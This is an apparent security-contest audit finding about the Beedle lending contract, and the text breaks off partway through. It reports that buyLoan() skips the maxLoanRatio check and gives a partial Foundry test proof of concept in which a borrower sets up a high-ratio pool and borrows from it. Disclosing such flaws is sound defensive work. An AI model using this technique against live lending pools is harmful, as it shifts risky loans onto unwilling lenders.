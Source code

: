 



## <a id='H-07'></a>H-07. Borrower can bypass maxLoanRatio's configuration of a pool via buyLoan()

_Submitted by [kutu](/profile/clk7qwwzw001gm9088xsr6a22), [sonny2k](/profile/clk51hohw0000mr08nfrnlewz), [leasowillow](/profile/clkntswhk004qmj09tj6fxd4k), [deadrosesxyz](/profile/clktuh7kc002qmd089uzpn87a), [jnrlouis](/profile/clk4myztd0000l408kiebyflx), [Tatakae](/team/clkpe7ipx0001kz08k8k1pp3v), [Bernd](/profile/clk5a205d0004jo087iekv9sw), [0xsandy](/profile/clk43kus5009imb0830ko7dxy), [KrisApostolov](/profile/clk471cle002ala08cacdmyhg). Selected submission by: [sonny2k](/profile/clk51hohw0000mr08nfrnlewz)._      
            


## Summary
In [buyLoan()](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L465), there is no validation if the `loanRation < pool.maxLoanRatio`. Therefore, a lender can be given a loan with higher LTV than his pool which he doesn't want at all.

## Vulnerability Details
Since [buyLoan()](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L465) can be called by anyone, a malicious borrower can borrow a loan from his own pool with a pretty high `maxLoanRatio` so that he can put the least collateral possible to take the loan, then forcefully push this loan by calling `buyLoan()` with his own loan to a random pool with enough pool balance of the pairs. Doing this helps the borrower avoid the risk of high LTV.

## POC
1. We mint the `loanToken` to `borrower` so that he can set up his pool in [setUp()](https://github.com/Cyfrin/2023-07-beedle/blob/main/test/Lender.t.sol#L35) function of `Lender.t.sol`
```diff
+        loanToken.mint(address(borrower), 100000 * 10 ** 18);
```
2. Paste this code into `Lender.t.sol`: https://github.com/Cyfrin/2023-07-beedle/blob/main/test/Lender.t.sol.
Right here the borrower set up his pool with very high `maxLoanRatio` of 5 and borrow the loan himself/herself.
```
function test_borrowPoc() public {
        vm.startPrank(borrower);
        Pool memory p = Pool({
            lender: borrower,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100 * 10 ** 18,
            poolBalance: 1000 * 10 ** 18,
            maxLoanRatio: 5 * 10 ** 18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        bytes32 poolId = lender.setPool(p);

        (, , , , uint256 poolBalance, , , , ) = lender.pools(poolId);
        assertEq(poolBalance, 1000 * 10 ** 18);

        Borrow memory b = Borrow({
            poolId: poolId,
            debt: 100 * 10 ** 18,
            collateral: 100 * 10 ** 18
        });
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;
```